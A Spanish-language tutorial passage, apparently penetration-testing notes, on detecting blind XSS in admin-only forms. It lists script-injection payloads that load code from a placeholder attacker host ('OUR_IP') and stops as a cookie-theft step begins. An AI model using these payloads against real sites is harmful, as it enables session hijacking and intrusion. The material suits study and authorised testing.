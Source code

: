 ```python
$ sudo php -S 0.0.0.0:8080
PHP 7.4.15 Development Server (http://0.0.0.0:8080) started
```
#### 1.-Detectar formulario
Las vulnerabilidades XSS ciegas suelen ocurrir con formularios a los que solo pueden acceder determinados usuarios (por ejemplo, administradores). Algunos ejemplos posibles son:

- Formularios de contacto
- Reseñas
- Detalles del usuario
- Tickets de soporte
- Encabezado de agente de usuario HTTP

En casos normales (es decir, no ciegos), podemos probar cada campo hasta que obtengamos un `alert`cuadro,.
Sin embargo, como no tenemos acceso al panel de administración en este caso, podemos utilizar el mismo truco que utilizamos en la sección anterior, que consiste en utilizar un payload de JavaScript que envíe una solicitud HTTP a nuestro servidor. Si se ejecuta el código JavaScript **en cada campo del formulario**, obtendremos una respuesta en nuestra máquina y sabremos que campo de la página es vulnerable.
![[xss_3.png]](<a><img src="/img/xss_3.jpg"></a>)
<a><img src="/img/xss_3.jpg"></a>

```html
<script src="http://OUR_IP/fullname"></script>
<script src="http://OUR_IP/username"></script>
<script src="http://OUR_IP/imgurl"></script>
```

En cada campo probaremos un payload que contenga en su llamada el nombre del campo en el que se inserta para cuando el servidor haga la llamada a nuestra IP se vea que campo es vulnerable.

![[xss_4.png]]
<a><img src="/img/xss_4.jpg"></a>

A continuación hay ejemplos de Payloads que se pueden probar :

```html
<script src="http://OUR_IP/FIELD"></script>
'><script src="http://OUR_IP/FIELD"></script>
"><script src="http://OUR_IP/FIELD"></script>
javascript:eval('var a=document.createElement(\'script\');a.src=\'http://OUR_IP/FIELD\';document.body.appendChild(a)')
<script>function b(){eval(this.responseText)};a=new XMLHttpRequest();a.addEventListener("load", b);a.open("GET", "//OUR_IP/FIELD");a.send();</script>
<script>$.getScript("http://OUR_IP/FIELD")</script>
```


#### 2.Robar cookies

Una vez obtengamos el campo vulnerable, procederemos a robar las cookies de sesión, para ello lo primero que vamos a hacer  es una carpeta (en la que iniciaremos un servidor) con dos archivos :
